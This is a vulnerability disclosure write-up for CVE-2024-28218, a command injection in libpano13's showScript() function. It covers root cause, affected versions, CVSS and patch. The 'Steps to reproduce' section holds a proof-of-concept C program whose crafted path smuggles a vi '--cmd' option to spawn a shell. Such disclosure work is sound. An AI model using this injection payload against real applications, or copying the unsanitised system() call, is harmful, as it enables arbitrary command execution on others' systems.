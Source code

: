 ```yaml
---
title: CVE-2024-28218
tags:
  - vulnerability-discovery
  - open-source
date: 2024-03-08
slug: CVE-2024-28218
---
```


# Summary

A command injection in `showScript()` in `libpano13` `0.1` through `2.9.21` allows context-dependent attackers to execute arbitrary commands via the function's parameters.

# Root cause analysis

`showScript` is a function implemented by `libpano13`, but dependent on the operating system. Therefore, there are multiple implementations for MacOS, Windows, ANSI and X11. The last three are vulnerable to command injection, as they are executing commands built by using the unsanitized input given as a parameter.

Taking the X11 implementation as an example, it can be seen that the `name` member of the `fullPath` structure is directly placed into the `vi` command. The latter is executed with `system`.

```c
void showScript(fullPath* scriptFile){
    char cmd[sizeof(fullPath) + 16];

    snprintf( cmd, sizeof(cmd)-1, "vi \"%s\"", scriptFile->name );
    if (system( cmd ) == -1) {
        PrintError("Unable to execute script editor");
    }
}
```

# CWEs

- CWE-77: Improper Neutralization of Special Elements Used in a Command ('Command Injection')

# Affected components releases

The `showScript` function, exposed in `libpano13`'s `filter.h`, is affected.

The vulnerable code snippets were introduced in the first revision for ANSI and Windows, and in the 14th revision for X11. All were released in December 2003, so the affected releases started from `0.1`.

The vulnerability was patched in `3005eda747af` and `61865cbe74ba` by replacing the vulnerable function with a stub. These commits are embedded in the `2.9.22` release.

This being said, the versions are those between `>=0.1` and `<=2.9.21` are affected.

# Attack vector

An attacker must attack an application linking `libpano13` and control the parameter provided to the `showScript` function (for example, via command line arguments) to exploit the vulnerability.

# Impact

The impact depends on how pano13 is integrated into the end application. If the end application calls `showScript` with a user-controlled `fullPath`, then the attacker is able to run arbitrary commands under the user on which the application's process was created. If the application is owned by `root` and has the SUID bit set, the vulnerability leads to full system compromise.

# CVSS v3.1 vector

- Vector: `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
- Base score: 8.4

# Steps to reproduce

Compile the following program with `gcc pano.c -lpano13  -o pano`. A shell will be spawned for the user under which the program is executed.

```c
#include <pano13/filter.h>
#include <stdlib.h>

int main(int argc, char **argv) {
  fullPath *outFile = malloc(sizeof(fullPath));
  char cmd[sizeof(fullPath) + 16];

  sprintf(cmd, "vi \"%s\"", "/tmp/\" --cmd \":set shell=sh|:shell");
  printf("[+] The executed command will be: %s\n", cmd);

  StringtoFullPath(outFile, (char *)"/tmp/\" --cmd \":set shell=sh|:shell");
  showScript(outFile);

  return 0;
}
```

# Patch

## Recommended to the maintainers

As `showScript` takes a `fullPath` structure as a first parameter, a sanitisation method (such as `realpath`) can be called in `fullPath`'s constructors, `StringtoFullPath` and `jpathTofullPath`.

## Applied by the maintainers

The vulnerability was patched in [the commit `3005ed`](https://sourceforge.net/p/panotools/libpano13/ci/3005eda747afbb652ce9a5791b7c297ef4104dd2/) by removing the `showScript` function.

The patch was made available to the users in [the `2.9.22` release](https://sourceforge.net/projects/panotools/files/libpano13/libpano13-2.9.22/).

